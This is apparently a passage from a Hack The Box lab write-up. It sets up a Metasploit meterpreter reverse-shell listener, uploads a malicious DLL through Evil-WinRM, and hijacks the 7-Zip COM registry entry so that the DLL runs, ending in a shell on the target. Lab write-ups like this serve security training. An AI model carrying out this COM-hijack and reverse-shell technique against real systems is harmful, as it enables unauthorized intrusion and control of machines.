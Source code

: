 Now prepare for the handler.

```bash
└─$ sudo msfconsole -q                                                                             
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.59
LHOST => 10.10.14.59
msf6 exploit(multi/handler) > set LPORT 2222
LPORT => 2222
msf6 exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 10.10.14.59:2222
```

Upload the `info.dll` to the `C:\Temp` folder.

```powershell
*Evil-WinRM* PS C:\Temp> upload info.dll
                                        
Info: Uploading /home/kali/HTB_Labs/DEPTHS_Season8/RustyKey/info.dll to C:\Temp\info.dll
                                        
Data: 12288 bytes of 12288 bytes copied
                                        
Info: Upload successful!
```

Run the `info.dll` with this command.

```bash
C:\Temp>reg add "HKLM\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /d "C:\Temp\info.dll" /f
reg add "HKLM\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /d "C:\Temp\info.dll" /f
The operation completed successfully.
```

*Some explanation about the command.* <br>
- **`reg add`**: Windows registry modification command.
- **`HKLM\Software\Classes\CLSID`**: COM object registry root.
- **`{23170F69-40C1-278A-1000-000100020000}`**: 7-Zip CLSID (confirmed vulnerable).
- **`\InprocServer32`**: Subkey containing DLL path.
- **`/ve`**: Modify default (empty name) value.
- **`/d "C:\Temp\info.dll"`**: New DLL path (malicious payload).
- **`/f`**: Force overwrite without confirmation.

Wait for a second, fact that need to wait for a while to get the `meterpreter` session. <br>

```bash
msf6 exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 10.10.14.59:2222 
[*] Sending stage (203846 bytes) to 10.129.4.62
[*] Meterpreter session 1 opened (10.10.14.59:2222 -> 10.129.4.62:53105) at 2025-07-01 08:27:11 -0400

meterpreter > shell
Process 14240 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.7434]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows>powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows> whoami
whoami
```